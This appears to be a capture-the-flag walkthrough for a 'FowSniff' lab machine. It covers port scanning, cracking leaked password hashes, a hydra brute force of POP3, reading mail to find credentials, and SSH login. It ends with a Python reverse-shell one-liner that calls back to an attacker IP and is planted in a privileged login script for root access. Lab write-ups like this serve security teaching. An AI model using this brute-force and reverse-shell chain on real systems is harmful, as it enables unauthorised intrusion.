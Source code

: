 # FowSniff

## 1. Using nmap, scan this machine. What ports are open?
Run `nmap -sCV -p- $ip` this can take very long however so I used rustscan instead by using `rustscan -a $ip`

## 2. Using the information from the open ports. Look around. What can you find?
4 Ports are open some interesting one are ssh, http and pop3
 
## 3. Using Google, can you find any public information about them?
We visit their website and found that they experienced
a data breach. Googling fowsniff corp gave us some email
and password hashes

## 4. Can you decode these md5 hashes? You can even use sites like hashkiller to decode them.
Use website like hashkiller to decode them. The password
used by the employee are quite weak

## 5. Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?
Use `hydra -L <Userlist> -P <PassList> -f $ip pop3. we see that the user seina reused password for her pop3 acc.

## 6.What was seina's password to the email service?
scoobydoo2

## 7. Looking through her emails, what was a temporary password set for her?
run `nc $ip 110` to access the pop3 server.
Run `USER seina` and `PASS scoobydoo2`. Run
RETR 1 and we can see the temporary password
There is another mail from baksteen 

## 8. In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.
View mail 2 and ssh using that user name. He has the default password

## 9. Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?
When we login, we are greeted with a cube and the company logo. Run sudo -l and baksteen do not have any sudo rights. Upload linpeas.sh using python webserver `python -m http.server`
then in target machine do `wget $ip:8000/linpeas.sh` Do chmod +x linpeas.sh to set executable and run it. Linpeas highlighted cube.sh file which has elevated rights. We see that the cube is displayed when we login so this means that if we include our reverse shell code and relogin, we will get elevated shell.
Reverse shell `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.11.158",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
